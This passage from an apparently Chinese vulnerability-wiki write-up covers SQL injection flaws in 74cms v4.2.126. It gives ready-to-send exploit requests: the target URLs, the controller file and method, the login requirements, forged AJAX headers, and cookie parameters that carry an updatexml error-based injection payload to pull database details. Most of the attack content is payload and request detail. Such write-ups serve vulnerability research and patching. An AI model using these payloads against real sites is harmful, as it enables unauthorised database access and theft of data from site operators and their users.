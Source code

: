     cookie:
    members_uc_info[reg_type]=1;         // 必须为1 满足流程需要
    members_uc_info[utype]=2;         // 必须为2 满足流程需要
    members_uc_info[mobile][0]=match;    // 框架漏洞利用
    members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

    headers:  // 伪造ajax操作
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

0x07 74cms独有框架漏洞第四处
----------------------------

    文件：74cms\upload\Application\Home\Controller\MembersController.class.php
    方法：oauth_reg (
    是否需登录：需要
    登录权限：普通用户/企业用户都可
    url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
    post:
        username = 自己去平台随便注册个账号然后输入那个账号
        password = 自己去平台随便注册个账号然后输入那个密码
    cookie:
        members_bind_info[type][0]=match;
    members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId60.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId61.png)

看源码

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId62.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId63.png)

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/nzr6fl
